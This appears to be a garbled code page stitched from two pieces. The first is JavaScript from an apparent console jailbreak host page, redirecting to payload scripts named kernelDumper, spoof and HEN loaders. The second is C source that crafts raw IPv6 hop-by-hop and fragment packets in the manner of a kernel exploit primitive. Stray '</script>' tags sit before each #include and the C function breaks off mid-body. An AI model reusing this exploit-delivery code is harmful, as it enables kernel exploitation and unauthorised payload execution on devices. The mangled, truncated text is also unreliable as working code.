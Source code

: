 function load_dbRespore(){window.location.replace("payload.html#f=dbRespore.js");}
function load_fanThreshold(){window.location.replace("payload.html#f=fanThreshold"+tempC.value+".js");}
function load_kernelDumper(){window.location.replace("payload.html#f=kernelDumper.js");}
function load_enableBrowser(){window.location.replace("payload.html#f=enableBrowser.js");}
function load_ce303916fix(){window.location.replace("payload.html#f=ce303916fix.js");}
function load_henSP5Cdex82(){window.location.replace("payload.html#f=henSP5Cdex82.js");}
function load_enableVR(){window.location.replace("payload.html#f=vr.js");}
function load_arabicGuy100(){window.location.replace("payload.html#f=arabicGuy100.js");}
function load_arabicGuy127(){window.location.replace("payload.html#f=arabicGuy127.js");}
function load_arabicGuy132(){window.location.replace("payload.html#f=arabicGuy132.js");}
function load_spoof(){window.location.replace("payload.html#f=spoof.js");}
</script>
</body>
</html>

</body>
</html>
 </select>
	</body>
</html>
</script>#include <sys/types.h>
</script>#include <sys/param.h>
</script>#include <sys/cpuset.h>
</script>#include <sys/socket.h>
</script>#include <sys/mman.h>
</script>#include <sys/sysctl.h>
</script>#include <sys/vmmeter.h>
</script>#include <netinet/in.h>
</script>#include <string.h>
</script>#include <unistd.h>
</script>#include <fcntl.h>
</script>#include <time.h>
</script>#include <vm/vm_param.h>
</script>#include <stdio.h>

</script>void send_fragment(int fd, char* src, size_t off, size_t sz, int is_final)
{
    unsigned char buf[0x100];
    // hop-by-hop header
    buf[0] = 44;
    buf[1] = 0;
    buf[2] = 1;
    buf[3] = 4;
    buf[4] = buf[5] = buf[6] = buf[7] = 0x41;
    // fragment header
    buf[8] = 43;
    buf[9] = 0;
    size_t mid = off + !is_final;
    buf[10] = mid / 256;
    buf[11] = mid % 256;
    buf[12] = 0xde;
    buf[13] = 0xad;
    buf[14] = 0xbe;
    buf[15] = 0xef;
    for(size_t i = 0; i < sz; i++)
        buf[16+i] = src[off+i];
    struct sockaddr_in6 sin6 = {
        .sin6_family = AF_INET6,
        .sin6_addr = {0},
        .sin6_port = 0xbeef,
    };
    sin6.sin6_addr.s6_addr[15] = 1;
    sendto(fd, buf, 16+sz, 0, (struct sockaddr*)&sin6, sizeof(sin6));